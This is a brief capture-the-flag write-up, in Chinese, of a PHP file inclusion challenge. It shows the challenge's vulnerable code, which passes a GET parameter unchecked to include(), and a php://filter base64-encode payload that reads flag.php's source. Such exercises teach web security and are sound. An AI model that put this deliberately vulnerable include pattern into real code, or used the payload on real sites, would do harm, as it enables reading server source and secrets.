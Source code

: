 #PHP伪协议 
```php
<?php
//WEB手要懂得搜索
//flag in ./flag.php

if(isset($_GET['filter'])){
    $file = $_GET['filter'];
    if(!preg_match("/flag/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```
payload:
要加convert.base64-encode
```url
?filter=php://filter/convert.base64-encode/resource=flag.php
```
